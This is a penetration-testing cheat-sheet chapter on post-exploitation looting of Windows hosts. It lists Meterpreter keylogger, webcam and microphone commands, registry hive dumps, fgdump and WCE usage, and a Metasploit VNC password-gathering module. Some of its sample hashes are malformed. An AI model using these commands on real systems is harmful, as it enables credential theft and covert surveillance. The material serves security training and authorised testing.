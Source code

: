 # Loot


## Meterpreter

If you have a meterpreter shell you are able to do a lot of thing with very little effort.
If you do not have a meterpreter-shell you can always create a exploit with msfvenom. An elf or exe or other format to upgrade your shell.

Show help of all commands:
```
-h
```

**Dump windows hashes for further analysis**

```
hashdump
```

Keylogger

```
keysscan_start
keyscan_dump
keyscan_stop
```

**Mic and webcam commands**

```
record_mic     Record audio from the default microphone for X seconds
webcam_chat    Start a video chat
webcam_list    List webcams
webcam_snap    Take a snapshot from the specified webcam
webcam_stream  Play a video stream from the specified webcam
```


## Dumping passwords and hashes on windows

This most likely requires administrative rights, that's why the chapter is found here and not in priv-esc. Once you have a hash you can move on to the Password Cracking-chapter where we discuss different techniques of cracking hashes.

Windows stores passwords in SAM - Security Account Manager. Passwords are stored differently depending on the operating system. Up until (and including) Windows 2003 stored the passwords in LAN Manager (LM) and NT LAN Manager (NTLM). LM is incredibly insecure. From windows vista and on the system does not use LM, only NTLM. So it is a bit more secure.

**LM and NTLM >= Windows 2003**

**NTLM > Windows vista**

### LM Hashes

LM hashes can be really easy to crack. The LM part in the example below is the first part.

```
Administrator:500:FA21A6D3CF(01B8BAAD3B435B51404EE:C294D192B82B6AA35C3DFCA81F1F59BC:::
```

Example of NT

```
Administrator:500:NO PASSWORD*********************:BE134K40129560B46534340292AF4E72:::
```

### fgdump.exe

We can use `fgdump.exe` (`locate fgdump.exe` on kali) to extract NTLM and LM Password hashes. Run it and there is a file called 127.0.0.1.pwndump where the hash is saved. Now you can try to brute force it. 


### Windows Credencial Editor (WCE)

WCE can steal NTLM passwords from memory in cleartext!
There are different versions of WCE, one for 32 bit systems and one for 64 bit. So make sure you have the right one.

You can run it like this
```
wce32.exe -w
```


### Loot registry without tools

This might be a better technique than using tools like wce and fgdump, since you don't have to upload any binaries.
Get the registry:

```
C:\> reg.exe save hklm\sam c:\windows\temp\sam.save
C:\> reg.exe save hklm\security c:\windows\temp\security.save
C:\> reg.exe save hklm\system c:\windows\temp\system.save
```

The hashes can be extracted using `secretdump.py` or `pwdump`

### Pwdump 7

http://www.tarasco.org/security/pwdump_7/

## VNC

VNC require a specific password to log in to. So it is not the same password as the user password. If you have a meterpreter shell you can run the post exploit module to get the VNC password.

```
background
use post/windows/gather/credentials/vnc
set session X
exploit
```

## References

This is a great post
https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/
